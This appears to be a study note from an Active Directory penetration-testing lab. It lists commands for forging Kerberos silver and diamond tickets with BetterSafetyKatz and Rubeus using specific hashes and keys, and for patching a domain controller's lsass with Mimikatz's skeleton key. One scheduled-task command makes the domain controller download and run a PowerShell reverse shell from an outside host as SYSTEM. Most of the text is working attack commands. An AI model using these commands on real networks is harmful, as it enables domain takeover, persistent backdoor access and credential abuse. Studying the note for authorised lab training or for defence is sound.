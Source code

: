 ## Note
All service accounts http(powershell remoting), cifs, rpcss, ldap, wmi all services use machine account as a service account ex: dcorp-dc$, dcorp-adminsrv$, dcorp-student$

Using hash of the Domain Controller computer account, below command provides access to file system on the DC.
```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
There are various ways of achieving command execution using Silver tickets. Creating a silver ticket for the HOST SPN which will allow us to schedule a task on the target:
```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:e9bb4c3d1327e29093dfecab8c2676f6 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
```
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex(New-Object Net.WebClient).DownloadString(''http://172.16.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
```
```
schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```

# Diamond Ticket
A diamond ticket is created by decrypting a valid TGT, making changes to it and re-encrypting it using AES key of krbtgt account.Note: golden ticket was tgt forging attack while diamond ticket is tgt modification attack. A diamond ticket is more opsec safe. Here, If we have hash of krbtgt account we can forge TGT ourselves that means we can modify and create our own TGT impersonating as any client(ex: Domain Admin, student user), service or computer.
```
Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
# Skeleton Key
It is an attack where it is possible to patch a domain controller(lsass process) so that it allows access as any user with a single password. Below the password would be mimikatz on the domain controller of choice.
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
Now, it is possible to access any machine with a valid username and password as "mimikatz"
```
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
```
